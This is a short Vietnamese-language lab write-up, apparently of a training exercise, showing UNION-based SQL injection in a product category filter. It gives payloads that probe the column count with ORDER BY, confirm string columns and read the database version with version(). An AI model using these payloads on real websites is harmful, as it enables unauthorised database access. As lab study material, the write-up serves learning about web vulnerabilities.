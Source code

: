 # Triển khai Lap
 ###### Phát hiện thấy có lỗ hổng chèn SQL trong bộ lọc danh mục sản phẩm.Khi nhập lệnh `/filter?category='ORDER BY 3-- -`
 ![alt text](image.png)
###### Tiếp tục thay đổi URL `/filter?category=' UNION SELECT NULL,NULL-- -`
![alt text](image-1.png)
###### ===>có 2 cột trong bảng này.
###### tìm phiên bản cơ sở dữ liệu.
###### Tìm xem cột nào chấp nhận kiểu dữ liệu string.
###### `' UNION SELECT 'string1','string2'-- -`
![alt text](image-2.png)
###### ===>Cả hai đều chấp nhận kiểu dữ liệu chuỗi.
###### Liệt kê phiên bản DBMS (Database Management System) version via version().
###### `' UNION SELECT NULL,version()-- -`
![alt text](image-3.png)

